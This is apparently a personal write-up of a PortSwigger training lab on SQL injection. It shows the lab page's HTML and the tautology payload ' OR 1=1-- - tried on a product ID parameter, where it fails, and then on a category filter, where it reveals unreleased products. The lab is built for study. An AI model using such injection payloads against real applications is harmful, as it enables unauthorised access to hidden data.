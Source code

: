 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data), you'll learn: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032350.png)

**View-source:**
```html
<div theme="ecommerce">
            <section class="maincontainer">
                <div class="container">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a href="/">All</a>
                        <a href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a href="/filter?category=Gifts">Gifts</a>
                        <a href="/filter?category=Lifestyle">Lifestyle</a>
                        <a href="/filter?category=Pets">Pets</a>
                    </section>
                    <section class="container-list-tiles">
                        <div>
                            <img src="/image/productcatalog/products/20.jpg">
                            <h3>Single Use Food Hider</h3>
                            <img src="/resources/images/rating3.png">
                            $58.56
                            <a class="button" href="/product?productId=9">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/23.jpg">
                            <h3>Sprout More Brain Power</h3>
                            <img src="/resources/images/rating2.png">
                            $90.82
                            <a class="button" href="/product?productId=14">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/52.jpg">
                            <h3>Hydrated Crackers</h3>
                            <img src="/resources/images/rating2.png">
                            $11.66
                            <a class="button" href="/product?productId=19">View details</a>
                        </div>
                        [...]
```

As you can see, **there is a `filter` page that accepts `category` GET parameter, and a `product` page that accepts `productId` GET parameter.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032838.png)

Hmm... What if I clicked one of the `View details` buttons?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032910.png)

**It brings me to the `product` page with the `productId` GET parameter value `9`.**

What if I change the `9` to `1`?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033024.png)

Hmm... Nothing weird.

**How about testing it for it is vulnerable to SQL injection?**

**Imagine this is the SQL statement of the `productId`:**
```sql
SELECT * FROM products WHERE productId = '1'
```

**What if I close that string with `'`, then returns always true via `OR 1=1`, then commented out the rest of the SQL statement?**

**Payload:**
```sql
/product?productId=1' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE productId = ''' OR 1=1-- -
```

Will it returns every products?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033129.png)

Hmm... Nope. It requires a valid product ID.

**How about the `filter` page?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033640.png)

**Let's click the `Pets` filter!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033708.png)

**Now the GET parameter value will be: `Pets`**

**Also, let's go back to the SQL statement that the lab gave us:**
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**Hmm... Again, what if I let it returns always true via the `OR` clause?**  

**Payload:**
```sql
/filter?category=' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE category = ''' OR 1=1-- - AND released = 1
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034318.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034331.png)

**Now we can see there are some unreleased items!!**

# Conclusion

What we've learned:

1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data